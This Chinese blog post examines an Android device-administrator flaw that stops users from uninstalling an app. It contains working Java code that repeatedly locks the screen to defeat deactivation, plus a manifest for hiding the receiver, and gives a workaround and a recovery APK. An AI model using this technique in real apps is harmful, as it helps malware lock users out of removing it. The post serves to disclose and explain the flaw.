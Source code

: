 ```yaml
---
layout: post
date: 2015-02-09
title: "无法卸载的 App - 设备管理器漏洞"
tags: [Android, post]
---
```

前两天某朋友发现手机有个app无法卸载，后知其因设备管理器激活导致，遂去尝试取消，但却在取消那刻卡机。反复折腾之后，只能重刷。后来他发了一篇关于设备管理器bug的文章给我，便有了如下一番折腾。

##**尝鲜**

文章[《Android 学习 设备管理器勾选后不能再取消了》](http://androidmaster.iteye.com/blog/2035381)（作者：带个回家）大致意思是：
> 继承 DeviceAdminReceiver 重写 onDisableRequested(Context context, Intent intent) 即可达到目的。

<!-- more -->

```java
@Override
public CharSequence onDisableRequested(Context context, Intent intent) {
    // 这里处理 不可编辑设备。
    Intent intent2 = new Intent(context, NoticeSetting.class);
    intent2.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
    context.startActivity(intent2);
    context.stopService(intent);// 是否可以停止
    return ""; // "这是一个可选的消息，警告有关禁止用户的请求";
    }

```

在此之前，我并没有接触过设备管理器的功能，参考了 API Guides 的 [Device Administration](http://developer.android.com/guide/topics/admin/device-admin.html) ，以及 [DeviceAdminReceiver](http://developer.android.com/reference/android/app/admin/DeviceAdminReceiver.html) 的 API 后，试着写了一个跟上述文章一样的 app，**4.4 & 5.0均测试失败，可以正常取消激活**。

##**再战**

搜索，找到[《Android设备管理器漏洞》](http://blog.csdn.net/androidsecurity/article/details/9124747)（作者：Jack_Jia）另一篇讲解此问题的文章。文章提到：
> 如果想在设备管理器列表中”隐身“，只要不注册 `android.app.action.DEVICE_ADMIN_ENABLED` 广播就行。

也就是不给 `intent-filter` 标签设置该 action。

```xml
<receiver
    android:name=".MyDeviceReceiver"
    android:description="@string/receiver_description"
    android:label="@string/app_name"
    android:permission="android.permission.BIND_DEVICE_ADMIN">

    <meta-data
        android:name="android.app.device_admin"
        android:resource="@xml/device_manager_policies" />

    <intent-filter>
    
    </intent-filter>

</receiver>
```

**4.4 & 5.0测试失败，设备管理器无法激活（代码激活不会弹出，设备管理器又找不到）。**

##**三战**

继续搜索，发现百度安全实验室一篇文章[《Android设备管理器漏洞2》](http://safe.baidu.com/2014-10/deviceadminexploit2.html)。文章提到：

> 已激活设备管理器权限的手机木马利用该漏洞，可以在设置程序的设备管理器列表中隐藏，这样用户就无法通过正常途径取消该手机木马的设备管理器权限，从而达到无法卸载的目的。Android4.2版本以上系统已经修复该漏洞。
> 
>...
>
>通过调用stopAppSwitch()方法，系统保证在进入取消设备管理器界面后，**5秒内不会进行Activity的切换。**
>
>...
>
>onDisableRequested函数满足以下条件即可：
>
1、返回内容不能为空，这样才可以使设备管理器弹出取消激活设备管理器警示信息 Dialog。
>
2、通过Activity切换的方式使设备管理器弹出的警示信息Dialog消失。使用户无法操作Dialog。
如果做到以上两点，程序即可成功阻止用户取消激活设备管理器操作。


故，只要在 onDisableRequested 方法中，让用户在取消激活时5s内无法操作界面，然后采取 Activity 切换的方法即可绕开取消激活的步骤。这里为了测试直观并且试一试设备管理器的 api，采用了百度提供的连续锁屏法。测试环境为5.0。

```java
public CharSequence onDisableRequested(Context context, Intent intent) {                                            
                                                                                                                    
    //跳离当前询问是否取消激活的 dialog                                                                                          
    Intent outOfDialog = context.getPackageManager().getLaunchIntentForPackage("com.android.settings");             
    outOfDialog.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);                                                            
    context.startActivity(outOfDialog);                                                                             
                                                                                                                    
    //调用设备管理器本身的功能，每 100ms 锁屏一次，用户即便解锁也会立即被锁，直至 7s 后                                                                
    final DevicePolicyManager dpm = (DevicePolicyManager) context.getSystemService(Context.DEVICE_POLICY_SERVICE);  
    dpm.lockNow();                                                                                                  
    new Thread(new Runnable() {                                                                                     
        @Override                                                                                                   
        public void run() {                                                                                         
            int i = 0;                                                                                              
            while (i < 70) {                                                                                        
                dpm.lockNow();                                                                                      
                try {                                                                                               
                    Thread.sleep(100);                                                                              
                    i++;                                                                                            
                } catch (InterruptedException e) {                                                                  
                    e.printStackTrace();                                                                            
                }                                                                                                   
            }                                                                                                       
        }                                                                                                           
    }).start();                                                                                                     
                                                                                                                    
    return "";                                                                                                      
}                                                                                                                   
```

1. 安装后打开直接跳转激活界面：
![安装后打开直接跳转激活界面](http://2bab-images.lastmayday.com/blog/2015-02-09-app-cannot-be-uninstalled-1.jpeg?imageslim)


2. 一旦激活则无法正常卸载
![一旦激活则无法正常卸载](http://2bab-images.lastmayday.com/blog/2015-02-09-app-cannot-be-uninstalled-2.jpeg?imageslim)

3. 进入设备管理器界面
![进入设备管理器界面](http://2bab-images.lastmayday.com/blog/2015-02-09-app-cannot-be-uninstalled-3.jpeg?imageslim)

4. 尝试取消激活
![尝试取消激活](http://2bab-images.lastmayday.com/blog/2015-02-09-app-cannot-be-uninstalled-4.jpeg?imageslim)

5. 强制进入锁屏
![强制进入锁屏](http://2bab-images.lastmayday.com/blog/2015-02-09-app-cannot-be-uninstalled-5.jpeg?imageslim)

至此，用户用普通方法无法卸载该app。测试使用某数字软件可以卸载，具体步骤：在数字软件的软件卸载功能中卸载Trick，此时提示取消激活，跳转到设备管理器界面取消激活，引发锁屏，强制锁屏7s结束后，切回数字软件，你会发现出现了取消激活的dialog，点击取消成功。

而文章开头提到的流氓软件，实则是跳转到一个所有按钮无效的自定义全屏界面（不是我这样跳到设置界面），使用数字软件无法解决问题。

##**总结**

日后看到设备管理器激活申请定要小心三分，本文提及内容请勿不正当使用。

##**相关下载**

- [源码Gist](https://gist.github.com/2BAB/786513de79b7bfd82c3f)
- [测试APK](http://engineering-blog-2bab.qiniudn.com/DeviceAdmin-DeviceAdminTrick.apk)，安装后激活则无法卸载。
- [恢复APK](http://engineering-blog-2bab.qiniudn.com/DeviceAdmin-recovery.apk)，覆盖安装后可顺利取消激活。

*欢迎关注我的[公众号和微博](/about)。*